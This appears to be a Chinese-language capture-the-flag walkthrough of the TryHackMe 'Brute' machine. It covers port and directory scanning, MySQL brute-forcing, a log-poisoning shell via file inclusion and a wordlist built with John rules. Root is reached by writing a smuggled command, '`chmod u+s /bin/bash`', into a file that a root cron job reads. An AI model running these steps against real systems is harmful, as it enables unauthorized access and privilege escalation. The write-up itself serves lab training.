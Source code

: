 ```yaml
---
sidebar_position: 140
tags: [Easy, Linux, 文件包含, 定时任务]
title: "Brute"
description: "Brute"
sidebar_label: "Brute"
slug: /tryhackme/140
---
```


# Brute

## 端口扫描

```bash
root@ip-10-10-29-11:~/ettubrute# nmap -sTCV -p- --min-rate 1000 10.10.78.120

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-04 08:32 BST
Nmap scan report for ip-10-10-78-120.eu-west-1.compute.internal (10.10.78.120)
Host is up (0.00029s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
3306/tcp open  nagios-nsca Nagios NSCA
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.28-0ubuntu0.20.04.3
|   Thread ID: 24
|   Capabilities flags: 65535
|   Some Capabilities: SwitchToSSLAfterHandshake, Support41Auth, LongColumnFlag, SupportsCompression, ODBCClient, SupportsLoadDataLocal, Speaks41ProtocolOld, IgnoreSigpipes, FoundRows, Speaks41ProtocolNew, ConnectWithDatabase, SupportsTransactions, InteractiveClient, LongPassword, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: O\x19~\x16
| ve\x0B\x0Egf\x17C\x1Bi\x06m\x1C]Z
|_  Auth Plugin Name: 96
MAC Address: 02:E4:7D:04:55:5B (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 3306

进行暴力破解

![image-20240709171651591](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171653.png)

得到密码后登录 Mysql 在数据库中发现了一个账号并且密码存在加密![image-20240709171656908](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171658.png)

解密得到消息

![image-20240709171704945](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171706.png)

## 80

```bash
root@ip-10-10-29-11:~/ettubrute# gobuster dir -u http://10.10.78.120/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.78.120/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/04 08:41:47 Starting gobuster
===============================================================
/index.php (Status: 200)
/welcome.php (Status: 302)
/logout.php (Status: 302)
/config.php (Status: 200)
/server-status (Status: 403)
===============================================================
2023/10/04 08:42:47 Finished
===============================================================
```

使用破解的密码访问我们的 80 站点, 我发现其中有一个按钮

![image-20240709171714706](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171716.png)

在此尝试之后我发现其是 FTP 的登陆日志记录, 所以直接配合文件包含写 Shell

![image-20240709171721398](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171723.png)

## 后渗透

### www-data

利用上面的方式我获取了一个 Shell

![image-20240709171734522](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171736.png)

![image-20240709171740953](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171742.png)

### www-data —> adrian

在用户 adrian 家目录枚举时我发现其提供了一个文件, 这告诉的应该是 adrian 的用户密码规则

```bash
(remote) www-data@brute:/var$ cat /home/adrian/.reminder
Rules:
best of 64
+ exclamation

ettubrute
```

我们生成一个密码

```bash
root@ip-10-10-29-11:~/ettubrute# echo ettubrute | john --stdout --pipe '--rules=best64' > wordlist
Using default input encoding: UTF-8
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
76p 0:00:00:00 0.00% 844.4p/s erutee
root@ip-10-10-29-11:~/ettubrute# sed -i 's/$/!/' wordlist
```

进行暴力破解, 获取到用户的 SSH 密码

![image-20240709171751189](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171752.png)

### adrian —> root

在 adrian 家目录枚举时我发现一些特殊文件

- ftp : 在这个文件中存在一个笔记告诉我, 管理员让 adrian 每分钟打卡一次
- punch_in.sh : 这个就是执行的脚本
- punch_in : 查看其输出我知道这应该就是 adrian  打卡的记录

```bash
adrian@brute:~$ ls -al
total 48
drwxr-xr-x 4 adrian adrian  4096 Apr  5  2022 .
drwxr-xr-x 3 root   root    4096 Oct 19  2021 ..
lrwxrwxrwx 1 adrian adrian     9 Oct 20  2021 .bash_history -> /dev/null
-rw-r--r-- 1 adrian adrian   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 adrian adrian  3771 Feb 25  2020 .bashrc
drwx------ 2 adrian adrian  4096 Oct 19  2021 .cache
drwxr-xr-x 3 nobody nogroup 4096 Oct 20  2021 ftp
-rw-r--r-- 1 adrian adrian   807 Feb 25  2020 .profile
-rw-r----- 1 adrian adrian   940 Oct  4 09:17 punch_in
-rw-r----- 1 root   adrian    94 Apr  5  2022 punch_in.sh
-rw-r--r-- 1 adrian adrian    43 Oct 20  2021 .reminder
-rw-rw-r-- 1 adrian adrian    75 Apr  5  2022 .selected_editor
-rw-r--r-- 1 adrian adrian     0 Oct 19  2021 .sudo_as_admin_successful
-rw-r----- 1 adrian adrian    21 Apr  5  2022 user.txt
-rw------- 1 adrian adrian     0 Apr  6  2022 .viminfo
```

我上传了 pspy 检查定时任务发现特殊之处

- punch_in.sh : 这是以 adrian  身份运行
- root 用户执行一个脚本用于检查 punch_in 的内容

![image-20240709171801895](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171803.png)

所以我修改了 punch_in.sh 脚本内容使其不向punch_in 输入内容, 同时修改 punch_in 内容使其变为执行命令

```bash
(remote) adrian@brute:/home/adrian$ echo "123;\`chmod u+s /bin/bash\`" > punch_in
(remote) adrian@brute:/home/adrian$ cat punch_in
123;`chmod u+s /bin/bash`
```

之后等待即可, 要是不放心可以使用 pspy 继续监听一下, 不管好像这时候就没哪个输出了你只能看到 check_in 脚本的执行

```bash
(remote) adrian@brute:/home/adrian$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```